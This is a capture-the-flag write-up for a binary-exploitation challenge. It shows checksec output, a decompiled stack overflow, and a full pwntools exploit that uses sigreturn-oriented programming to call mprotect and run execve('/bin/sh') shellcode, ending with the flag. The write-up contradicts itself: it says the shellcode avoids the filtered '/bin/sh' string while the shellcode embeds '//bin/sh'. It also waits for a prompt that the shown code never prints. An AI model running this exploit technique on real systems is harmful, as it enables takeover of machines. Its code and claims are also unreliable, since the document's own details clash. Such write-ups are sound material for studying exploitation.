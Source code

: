 # Database Intrusion - Writeup

---

## Exploit Demo

This demo shows the full exploitation flow:

![Alt text](gif/DatabaseIntrusion.gif)

---

## Binary Inspection

We begin by examining the binary format and security properties.

### Step 1: Binary Format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Security Properties

```bash
$ pwn checksec main
```

Security summary:

- **Full RELRO**
- **No Stack Canary**
- **NX enabled**
- **PIE enabled**

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

```c
int vuln() {
  _BYTE buf[64];
  printf(">> Secure channel established at %p:%p.\n", buf, vuln);
  read(0, buf, 0x190);
  check_forbidden(buf);
  return puts("Hint: You don't need ga\ndgets for rax!");
}
```

- `buf` and `vuln` addresses are leaked.
- `check_forbidden()` runs _after_ the overflow, so shellcode must not contain blocked substrings.
- Buffer is on the **stack**, so we need to **mprotect** it before execution.

---

## Vulnerability Summary

The function `vuln()` contains a **buffer overflow** on a 64-byte buffer due to an unchecked `read()` call that reads **0x190 bytes**:

```c
char buf[64];
read(0, buf, 0x190);  // Vulnerable
```

Furthermore, a `check_forbidden()` function filters out strings such as `/bin/sh`, `ls`, `bash`, and more — preventing traditional `system("/bin/sh")` shellcode or command injection.

---

## Exploit Strategy

Due to the NX bit and forbidden string filter, we use **Sigreturn-Oriented Programming (SROP)** to:

1. Call `mprotect()` to mark the stack **RWX**.
2. Inject and execute a **custom shellcode** that avoids forbidden strings.

### Overview

1. **Leak PIE base** from `printf("%p:%p", buf, vuln)` in `vuln()`.
2. **Page-align the stack buffer** to use in `mprotect()`.
3. **Craft a SROP frame** that sets up a `mprotect` syscall to make stack executable.
4. **Inject shellcode** directly into the buffer.
5. **Jump to shellcode** after stack permissions are changed.

---

## Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
exe = context.binary = ELF('./main')

def start(argv=[], *a, **kw):
    return process([exe.path] + argv, *a, **kw)

gdbscript = 'continue\n'

io = start()

# Leak buf and vuln addresses
io.recvuntil(b'>> Secure channel established at ')
leak_vals = io.recvline().split(b':')
buf_addr = int(leak_vals[0], 16)
vuln_addr = int(leak_vals[1].strip()[:-1], 16)

log.success(f"buf @ {hex(buf_addr)}")
log.success(f"vuln @ {hex(vuln_addr)}")

# Calculate PIE base
exe.address = vuln_addr - exe.sym['vuln']
log.success(f"PIE base @ {hex(exe.address)}")

# Set up ROP and gadgets
rop = ROP(exe)
syscall_gadget = rop.find_gadget(['syscall'])[0]

# Page-align stack address
page_size = 0x1000
aligned_stack = buf_addr & ~(page_size - 1)

# Create SigreturnFrame for mprotect
frame = SigreturnFrame()
frame.rax = 10                 # mprotect
frame.rdi = aligned_stack      # addr
frame.rsi = page_size          # len
frame.rdx = 7                  # PROT_READ | PROT_WRITE | PROT_EXEC
frame.rsp = buf_addr           # pivot back to shellcode
frame.rip = syscall_gadget     # syscall; ret

# Custom shellcode (no forbidden strings)
shellcode = asm('''
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f  # "//bin/sh"
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov al, 59                  # execve syscall
    syscall
''')

# Build payload
offset = 16
payload = p64(buf_addr + 8)         # new RIP (skip over dummy value)
payload += shellcode
payload += b'\x90' * (72 - len(payload))  # NOP padding
payload += p64(syscall_gadget)      # trigger sigreturn
payload += bytes(frame)             # actual frame

# Send payload
io.recvuntil(b'>> Root key required to proceed:\n')
io.sendline(payload)
io.interactive()
```

---

## Final Notes

- The SROP frame allows us to _bypass the NX bit_.
- The injected shellcode is carefully crafted to avoid any substrings checked by `check_forbidden()`.
- We pivot back into the shellcode via `rsp` in the frame after `mprotect()` succeeds.

---

## Result

After successful execution, a shell is spawned **without using any forbidden string**, granting control of the target system.

---

## Flag

```
RedPointer{X!r7v9-Kaleido.phs}
```
